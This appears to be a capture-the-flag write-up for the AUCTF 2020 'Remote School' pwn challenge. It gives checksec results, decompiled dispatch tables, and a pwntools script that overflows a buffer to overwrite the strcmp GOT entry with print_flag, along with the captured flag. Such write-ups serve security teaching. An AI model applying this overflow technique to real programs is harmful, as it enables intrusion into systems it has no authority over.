



# AUCTF 2020

## Remote School

> 960
>
> Dear Student,
>
> Due to COVID-19 concerns our curriculum will be moving completely to online courses... I know we haven't even started our school year yet so this may come as a shock. But I promise it won't be too bad! You can login at challenges.auctf.com 30013.
>
> Best, Dean of Eon Pillars
> 
> Note: ASLR is disabled for this challenge
>
> Author: nadrojisk
> 
> [online](online)

Tags: _pwn_

### Introduction

I'm a little stumped why this was the least solved pwn.


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Basically, choose your own adventure.

PIE enabled, however the challenge server does not have ASLR enabled.

> To test without disabling ASLR systemwide type: `setarch $(uname -m) -R ./exploit.py`)
> 
> Since no ASLR and x86 (32-bit) we can assume a base process address of `0x56555000`.


#### Decompile with Ghidra

Three functions of interest.

Just need to call `print_flag`:



Looks like a basic buffer overflow vulnerability that will write any value to any writable location.  Just need to find a way to call `test`:



How to call `test`:




### Exploit

#### Attack Plan

1. Attend "Hacker" class
2. Pass _the_ `test`
3. Get the flag

#### Attend "Hacker" class

```
# ./online
Welcome to your new online class!
We here, at Eon Pillars, we think Zoom is trash and prefer to have our lessions via command line!
May I get your name?
	Name: foobar
Thanks! It is nice to meet you foobar!

Well enough of that let's start class ... What should we do?
> [? for menu]: ?

~~Eon Pillars help menu~~

help: Print help menu
attend <class>: go to class
study <class>: study for class
list: list classes
stats: check stats
grades: check grades
quit: Exit Terminal

What should we do?
> [? for menu]: list classes
You have these classes:
	Algebra
	CompSci
What should we do?
> [? for menu]:
```

This may be enough info to guess `attend Hacker`, if not, try `strings`, or take a look at `cmd_attend` calling `cmd_dispatch`.

`cmd_dispatch` is passed a pointer to a table of pointers pairs.  The first pointer is to a string that is used to check for a correct command, and the second is a pointer to a function to call for that command.

`classtable`:

```
00013ec0 e0              undefined1E0h                     [0]           ?  ->  000120e0 
00013ec1 20              undefined120h                     [1]
00013ec2 01              undefined101h                     [2]
00013ec3 00              undefined100h                     [3]
00013ec4 2f              undefined12Fh                     [4]           ?  ->  0001192f
00013ec5 19              undefined119h                     [5]
00013ec6 01              undefined101h                     [6]
00013ec7 00              undefined100h                     [7]
00013ec8 e8              undefined1E8h                     [8]           ?  ->  000120e8
00013ec9 20              undefined120h                     [9]
00013eca 01              undefined101h                     [10]
00013ecb 00              undefined100h                     [11]
00013ecc 67              undefined167h                     [12]          ?  ->  00011967
00013ecd 19              undefined119h                     [13]
00013ece 01              undefined101h                     [14]
00013ecf 00              undefined100h                     [15]
00013ed0 f0              undefined1F0h                     [16]          ?  ->  000120f0
00013ed1 20              undefined120h                     [17]
00013ed2 01              undefined101h                     [18]
00013ed3 00              undefined100h                     [19]
00013ed4 9f              undefined19Fh                     [20]          ?  ->  0001199f
00013ed5 19              undefined119h                     [21]
00013ed6 01              undefined101h                     [22]
00013ed7 00              undefined100h                     [23]
```

`0x13ec0` -> `0x120e0` in the table above compares with the table below:

```
000120e0 41 6c 67 65 62 72 61 00      ds         "Algebra"
000120e8 43 6f 6d 70 53 63 69 00      ds         "CompSci"
000120f0 48 61 63 6b 65 72 00         ds         "Hacker"
```

If there is a match then the next address is called:

```
uVar2 = (**(code **)(param_2 + local_18 * 8 + 4))(local_10,local_3c);
```

Code to navigate to `class_hacker`:

```
#!/usr/bin/env python3

from pwn import *

p = process('./online')
#p = remote('challenges.auctf.com', 30013)

p.recvuntil('Name: ')
p.sendline("Fuck you. That's my name. You know why, mister? You drove a Hyundai to get here. I drove an eighty-thousand dollar BMW. THAT'S my name.")
p.recvuntil('menu]: ')
p.sendline('attend Hacker')
p.recvuntil('Welcome!\n')
```

#### Pass _the_ `test`

```
baseproc = 0x56555000
binary = ELF('online')

payload  = 2048 * b'A'
payload += p32(baseproc + binary.symbols['print_flag'])
payload += p32(baseproc + binary.got['strcmp'])
p.sendline(payload)
```

`class_hacker` just takes our input and calls `test`.  The `payload` just overflows `local_814` into `local_14` and `*local_10`.  Whatever is in `local_14` will be written to whatever `*local_10` points to.

By overwriting the `strcmp` GOT entry with the address of `print_flag`, the next time `strcmp` is called, `print_flag` is really called, and we get the flag.

Grade: A+


#### Get the flag

```
p.recvuntil('menu]: ')
p.sendline("give us the flag")
p.stream()
```

Any input will trigger `strcmp` and deliver the flag:

```
[+] Opening connection to challenges.auctf.com on port 30013: Done
[*] '/pwd/datajerk/auctf2020/remote-school/online'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
auctf{1_hope_you_l1ked_my_g@m3_2321}
```

Flag: `auctf{1_hope_you_l1ked_my_g@m3_2321}`

